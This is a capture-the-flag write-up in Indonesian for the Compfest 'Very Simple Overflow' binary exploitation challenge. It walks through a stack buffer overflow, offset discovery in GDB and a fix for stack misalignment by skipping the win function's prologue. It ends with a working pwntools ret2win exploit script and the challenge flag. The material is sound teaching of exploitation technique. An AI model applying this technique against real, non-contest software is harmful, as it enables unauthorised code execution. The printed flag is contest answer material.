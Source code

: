 # **Write-up CTF Compfest: Very Simple Overflow**

## **Informasi Tantangan**

  * **Nama:** Very Simple Overflow
  * **Kategori:** Pwn / Binary Exploitation
  * **Deskripsi:** Diberikan sebuah file binary dan alamat server. Tujuannya adalah mengeksploitasi kerentanan untuk mendapatkan flag.

## **Ringkasan (TL;DR)**

Tantangan ini memiliki kerentanan *stack buffer overflow* yang sangat jelas. Tujuannya adalah melakukan `ret2win` dengan melompat ke fungsi `win` yang tersembunyi. Namun, tantangan sebenarnya terletak pada masalah **stack alignment** pada arsitektur 64-bit yang menyebabkan *crash* saat dipanggil secara naif. Karena keterbatasan ukuran input, solusi standar (menggunakan `ret gadget`) tidak dapat diterapkan. Solusi akhirnya adalah dengan melompat satu byte setelah awal fungsi `win` untuk melewati instruksi `push rbp`, sehingga menjaga stack tetap *aligned* dan memungkinkan eksekusi fungsi `win` berhasil.

-----

### **1. Analisis Awal & Reconnaissance**

Langkah pertama adalah melakukan analisis dasar pada file `chall` yang diberikan.

  * `file chall`: Menunjukkan bahwa ini adalah file ELF 64-bit, dynamically linked, dan tidak di-strip (masih memiliki simbol).
  * `checksec chall`:
      * **No Canary found**: Proteksi *stack canary* non-aktif. Ini membuka pintu untuk eksploitasi stack overflow.
      * **No PIE (0x400000)**: *Position-Independent Executable* non-aktif. Alamat-alamat fungsi dan data di dalam binary akan tetap sama setiap kali dieksekusi, menyederhanakan eksploitasi.
  * `strings chall`: Menemukan beberapa string menarik, termasuk "You know the drill" dan yang paling penting, sebuah fungsi bernama `win`. Ini adalah petunjuk besar adanya fungsi kemenangan yang bisa kita panggil.

Selanjutnya, binary dianalisis menggunakan Ghidra untuk dekompilasi.

```c
// Fungsi rentan
void vuln(void) {
    char buffer[16];
    printf("You know the drill\n>> ");
    fflush(stdout);
    // Kerentanan: Membaca 32 byte ke buffer 16 byte
    read(0, buffer, 32); 
}

// Fungsi kemenangan
void win(void) {
    // Fungsi ini membuka flag.txt dan mencetaknya
    char flag_buffer[100];
    FILE *file = fopen("flag.txt", "r");
    if (file) {
        fread(flag_buffer, 1, sizeof(flag_buffer), file);
        printf("%s\n", flag_buffer);
        fclose(file);
    }
}
```

Dari sini, rencana eksploitasi tampak jelas: temukan offset untuk menimpa *return address* dan arahkan ke fungsi `win`.

### **2. Perjalanan Menemukan Offset yang Benar**

Ini adalah bagian paling rumit dari tantangan ini, yang penuh dengan informasi yang menyesatkan.

  * **Analisis Statis (Gagal)**: Ghidra menunjukkan dua informasi yang saling bertentangan. Ringkasan decompiler menyebutkan buffer berada di `Stack[-0x18]`, yang mengarah pada perhitungan `OFFSET = 32`. Namun, instruksi Assembly yang sebenarnya adalah `LEA RAX, [RBP - 0x10]`, yang mengarah pada perhitungan `OFFSET = 24`.
  * **Analisis Dinamis (Berhasil)**: Karena analisis statis tidak meyakinkan, satu-satunya cara adalah dengan analisis dinamis menggunakan GDB.
    1.  Sebuah pola unik (`cyclic(200)`) dikirim ke program yang berjalan di dalam GDB.
    2.  Program crash saat menjalankan instruksi `ret`. `RIP` tidak tertimpa, yang menandakan crash terjadi tepat di instruksi `ret` itu sendiri.
    3.  Dengan memeriksa puncak stack (`x/gx $rsp`), kita menemukan nilai yang akan dieksekusi, yaitu `0x6161616861616167`.
    4.  `cyclic_find(0x6161616861616167)` mengkonfirmasi secara definitif bahwa **offset yang benar adalah 24**.

### **3. Masalah Stack Alignment & Solusi Cerdas**

Dengan `OFFSET = 24`, payload `ret2win` sederhana dibuat: `padding(24) + win_addr(8)`. Ukuran totalnya 32 byte, pas dengan `read(..., 32)`.

Namun, eksploit ini berhasil di lokal tetapi selalu gagal di server remote. Server menutup koneksi tanpa mengirim data (0 byte). Ini adalah gejala klasik dari **masalah stack alignment**.

  * **Penyebab**: Pada arsitektur x86-64, stack harus 16-byte aligned sebelum memanggil fungsi libc. `ret` dari `vuln` membuat stack menjadi aligned (`16n`), tetapi instruksi pertama di fungsi `win` (`push rbp`) kembali membuat stack menjadi tidak aligned (`16n + 8`), menyebabkan `fopen` crash.
  * **Dilema**: Solusi standar untuk ini adalah menyelipkan `ret gadget` (`padding + ret + win`), tetapi ini akan membuat payload menjadi 40 byte, yang melebihi batas `read()` 32 byte.
  * **Solusi Akhir**: Triknya adalah **melompat melewati prolog fungsi `win`**. Daripada melompat ke awal `win` di `0x401186` (yang berisi `push rbp`), kita melompat ke instruksi setelahnya di `0x401187`. Dengan cara ini, `push rbp` tidak pernah dieksekusi, stack tetap *aligned*, dan `fopen` bisa berjalan tanpa crash.

### **4. Skrip Exploit Final**

[cite\_start]Berdasarkan semua analisis dan debugging, berikut adalah skrip akhir yang berhasil mendapatkan flag. [cite: 1]

```python
#!/usr/bin/env python3
from pwn import *

# Fungsi helper untuk beralih antara tes lokal dan remote
def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote('ctf.compfest.id', 7004)
    else:
        return process(exe.path)

# --- KONFIGURASI ---
context.binary = exe = ELF('./chall', checksec=False)
context.log_level = 'info'

# --- PAYLOAD ---
OFFSET = 24          # Dikonfirmasi via GDB
WIN_ADDR = 0x401186  # Alamat awal fungsi win

# Trik: Lompat ke alamat setelah instruksi 'push rbp' (1 byte)
EXPLOIT_ADDR = WIN_ADDR + 1

info(f"Offset terkonfirmasi: {OFFSET}")
info(f"Alamat eksekusi (melompati prolog): {hex(EXPLOIT_ADDR)}")

payload = flat([
    b'A' * OFFSET,
    p64(EXPLOIT_ADDR)
])
assert len(payload) == 32

# --- EKSEKUSI ---
p = start()

# Interaksi dengan server
p.recvuntil(b'>> ')
p.send(payload)
log.success("Payload terkirim!")

# Menerima flag
flag_output = p.recvall(timeout=3)
if flag_output:
    log.success(f"Flag ditemukan: {flag_output.decode(errors='ignore').strip()}")
else:
    log.warning("Tidak ada output yang diterima.")

p.close()
```

### **5. Flag**
`COMPFEST17{the_risk_i_took_was_calculated_but_man_am_i_bad_at_math_ed0ea99d31}` 
